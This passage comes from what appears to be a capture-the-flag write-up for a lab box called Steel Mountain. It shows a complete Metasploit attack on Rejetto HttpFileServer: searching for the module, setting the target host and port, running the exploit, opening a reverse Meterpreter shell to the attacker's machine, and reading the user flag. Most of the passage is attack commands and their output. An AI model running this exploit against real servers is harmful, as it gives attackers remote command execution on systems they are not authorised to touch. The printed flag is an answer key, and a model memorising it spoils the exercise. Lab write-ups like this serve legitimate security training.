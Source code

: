 We can also find a Metasploit module for this exploit:

```bash
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```

Let's use the Metasploit module to exploit this vulnerability.

```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.28.113
RHOSTS => 10.10.28.113
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
```

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.95.132:4444
[*] Using URL: http://10.10.95.132:8080/opZKYI
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /opZKYI
[*] Sending stage (175686 bytes) to 10.10.28.113
[!] Tried to delete %TEMP%\PcnOGDEcKnI.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.95.132:4444 -> 10.10.28.113:49223) at 2024-09-19 13:56:23 +0100
[*] Server stopped.

meterpreter >
```

```bash
meterpreter > getuid
Server username: STEELMOUNTAIN\bill
```

With a Meterpreter shell, we can explore the filesystem and locate the user flag.

```bash
meterpreter > shell
Process 2716 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill>dir /B /S *txt*
dir /B /S *txt*
C:\Users\bill\AppData\Local\Microsoft\Internet Explorer\brndlog.txt
C:\Users\bill\Desktop\user.txt

C:\Users\bill>type C:\Users\bill\Desktop\user.txt
type C:\Users\bill\Desktop\user.txt
b04763b6fcf51fcd7c13abc7db4fd365
```
